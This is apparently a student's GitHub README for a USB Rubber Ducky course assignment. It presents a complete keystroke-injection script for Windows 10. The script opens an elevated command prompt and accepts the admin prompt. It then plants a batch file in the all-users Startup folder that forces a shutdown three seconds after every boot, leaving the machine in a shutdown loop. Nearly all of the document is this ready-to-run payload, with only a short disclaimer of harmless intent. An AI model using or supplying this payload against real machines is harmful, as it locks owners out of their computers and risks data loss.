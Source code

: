 # Infinite Shutdowns - Windows 10
## Hassan Chadad
## CS-683 USB Rubber Ducky Assignment

This ducky script is similar to the [Fork-Bomb](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Payload---fork-bomb). But instead of having infinite processes, I will have infinite shutdowns in a way where whenever the PC starts it will force shutdown after 3 seconds.<br/>
Steps to write the script:
1. Open cmd as admin
2. Go to the startup Folder where all the files that run on startup are located
3. Create a new Batch script in the startup Folder
4. Code the Batch Script to do a force shutdown after 3 seconds without showing the command prompt window
5. Exit the Batch Script
6. Run the Batch Script
7. Close the cmd

**This script is for the course's assignment and I don't aim to use it to harm or do any real attacks.**

```
REM ---------Open start Menu---------
CONTROL ESCAPE
DELAY 500
REM ---------Type cmd---------
STRING cmd 
DELAY 300
REM ---------Open cmd as admin---------
CTRL-SHIFT ENTER
DELAY 300
REM ---------Select Yes in the windows asking about running cmd as admin---------
LEFTARROW
DELAY 100
ENTER 
DELAY 1000
REM ---------Go To Startup Folder---------
STRING cd %ProgramData%\Microsoft\Windows\Start Menu\Programs\Startup\
ENTER
REM ---------Create a batch file in the startup folder to run it on startup of the PC---------
STRING copy con h.bat
ENTER
REM ---------Code the batch file to force shutdown after 3 seconds---------
STRING @echo off
ENTER
STRING shutdown.exe /f /s /t 3 
ENTER
REM ---------Exit the batch file---------
CONTROL z
ENTER
REM ---------Run the batch file---------
STRING h.bat
ENTER
REM ---------close cmd---------
ALT F4
```
